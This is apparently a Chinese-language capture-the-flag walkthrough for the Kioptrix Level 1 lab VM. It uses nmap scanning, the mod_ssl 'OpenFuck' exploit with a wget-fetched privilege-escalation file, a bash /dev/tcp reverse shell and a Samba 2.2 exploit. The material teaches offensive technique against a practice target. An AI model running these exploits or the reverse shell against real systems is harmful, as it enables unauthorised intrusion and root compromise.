



# 环境

来自[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

解压之后，`Kioptix Level 1.vmx`修改启动配置，`ethernet0.connectionType = "Bridged"`改成`nat`

# 信息收集

## 发现主机

工具nmap、arp-scan

```bash
nmap -sn 192.168.88.0/24
sudo arp-scan -l  #可以用这个，可以获取ip和mac
```


发现`192.168.88.11`是我们的目标靶机

## 端口扫描

工具nmap、masscan

```bash
sudo nmap -p- -sS 192.168.88.11
```


## 服务详细扫描

```bash
sudo nmap -p22,80,111,139,443,1024 -sV 192.168.88.11
```

结果，攻击面80>443>139>22



# 测试利用

## getshell_1

访问80端口发现，出现apache测试页面，乍一看没啥可利用的，但`apache/1.3.20`,`mod_ssl/2.8.4`版本较低，搜索漏洞

```bash
searchsploit mod_ssl
```


调用脚本

```bash
searchsploit -m 47080  #或者使用cp /usr/share/exploitdb/exploits/unix/remote/47080.c ./
sudo apt install libssl-dev
gcc -o exp 47080.c -lcrypto
./exp #会告诉你参数
```

查看脚本的提示，所需依赖`libssl-dev`，以及编译命令`gcc -o OpenFuck 47080.c -lcrypto`


参数目标系统、目标IP、端口、延迟`./OpenFuck 0x6b 192.168.88.11 443 -c 40`成功拿shell


按道理是应该是root权限，可能是ptrace-kmod.c没有执行成功，查看脚本，发现这个wget没有执行成功，我们开启服务，设法让目标可以下载我们的提取脚本


我们使用编写一个http-server服务，让靶机可以下载我们的脚本

```python
import http.server
import socketserver
# 定义端口号
PORT = 80
# 使用简单的 HTTP 处理程序
Handler = http.server.SimpleHTTPRequestHandler
# 启动服务器
with socketserver.TCPServer(("", PORT), Handler) as httpd:
    print("在端口", PORT, "启动 HTTP 服务器...")
    # 保持服务器运行，直到手动中断
    httpd.serve_forever()
```


`wget 192.168.88.10/ptrace-kmod.c`，我们再次连接，即可是root权限



接下来进行反弹shell，在kali执行`nc -lvvp 8888`，在靶机执行`bash -i >& /dev/tcp/192.168.88.10/8888 0>&1`


## getshell_2

除了apache的mod_ssl之外，还有一个139端口Samba服务，先探测具体版本，可以使用msfconsle

```bash
msfconsole
search smb_version
set rhost 192.168.88.11
run
```

Samba版本是2.2.1a


利用漏洞脚本

```bash
searchsploit samba 2.2
searchsploit -m 10 #或者使用cp /usr/share/exploitdb/exploits/multiple/remote/10.c ./
gcc 10.c -o samba_exp
./samba_exp -b 0 -v 192.168.88.11
```



